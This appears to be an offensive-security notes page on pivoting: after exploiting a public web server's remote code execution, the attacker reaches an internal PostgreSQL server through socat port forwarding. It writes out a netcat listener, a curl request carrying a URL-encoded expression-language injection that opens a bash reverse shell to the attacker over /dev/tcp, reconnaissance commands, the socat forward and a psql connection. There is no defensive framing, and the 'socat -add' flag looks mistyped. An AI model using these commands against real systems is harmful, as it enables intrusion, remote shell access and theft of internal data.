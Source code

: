 ## Table of contents
- [Simple Port Forwading](#Simple-Port-Forwading)

# Simple Port Forwading

Scenario:
 - external attacker machine
 - vulnerable public webserver (RCE)
 - internal database server, same sebserver's network

+- WAN ------------+    +- DMZ -------------------------------+\n
|                  |    |                                     |\n
|   [ ATTACKER ]   |    |   [ VULN-PUBLIC-SRV ]  [ DB-SRV ]   |\n
|                  |    |                                     |\n
+------------------+    +-------------------------------------+\n

``` bash
# open a listener on the attacker machine
nc -nvlp 1337

# exploit the webserver with a reverse shell command
curl http://$TARGET:$PORT/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$ATTACKER/$PORT%200%3E%261%27%29.start%28%29%22%29%7D/

# check the network configuration
# search for interesting information: webapp configuration, db credentials, ...
ip add
ip route
```

Port forwarding with socat:
 - the NAT configuration must be 1:1
 - socat must be installed on the target machine

+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN_PUBLIC_SRV ]  [ DB_SRV ]   |
|                ========== LISTEN 2345 ======== FRW 5432     | ==> for PgSQL
|                ========== LISTEN 2222 ======== FRW 22       | ==> for SSH
+------------------+    +-------------------------------------+

``` bash
socat -add TCP-LISTEN:2345,fork TCP:$DB_SRV:5432
```

Connect to DB_SRV from ATTACKER via VULN_PUBLIC_SRV:
``` bash
psql -h VULN_PUBLIC_SRV -p 2345 -U $user
```